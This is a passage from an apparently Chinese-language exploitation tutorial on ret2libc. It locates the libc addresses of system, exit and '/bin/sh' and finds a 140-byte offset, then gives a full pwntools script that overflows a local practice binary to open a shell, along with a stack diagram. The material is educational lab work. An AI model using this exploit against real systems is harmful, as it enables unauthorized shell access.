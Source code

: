 ![ret2libc]({{ '/images/201803/ret2libc_1_1.png' | prepend: site.baseurl }})

`system`函数的地址为`0xb7e3c850`,`exit`函数的地址为`0xb7e306c0`,继续查找`/bin/sh`这个是要作为`system`的参数进行传递的，使用`find /bin/sh`查找

![ret2libc]({{ '/images/201803/ret2libc_1_2.png' | prepend: site.baseurl }})

`/bin/sh`字符串的地址为`0xb7f5ae64`

再通过上一篇的文章，使用peda的`pattern_create`和`pattern_offset`来查找偏移位置

![ret2libc]({{ '/images/201803/ret2libc_1_3.png' | prepend: site.baseurl }})

偏移地址为140，此时开始构造exp脚本

<pre>#!/usr/bin/python

from pwn import *

#p = process('./vul')  #local
p = remote('127.0.0.1', 10000) #remote

# debug
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
#gdb.attach(proc.pidof(p)[0], gdbscript='b \*0x804843f\nr\n')

payload_len = 140 
system_addr = 0xb7e3c850
exit_addr = 0xb7e306c0
str_addr = 0xb7f5ae64

payload =  "A"*payload_len + p32(system_addr) + p32(exit_addr) + p32(str_addr)

p.send(payload)

p.interactive()</pre>

脚本的核心为payload，下图为payload在栈中的布局

<pre>+---------------------+
|                     |
|                     |
|                     |
|                     |
|                     |
|                     |
+---------------------+
|      "A" * 140      |
|                     |
+---------------------+
|     system_addr     |  <----+ overwrite return_address
+---------------------+
|     exit_addr       |  <----+ exec exit function until system finish
+---------------------+
|      str_buf        |  <----+ system arg  "/bin/sh"
+---------------------+
|                     |
+---------------------+</pre>
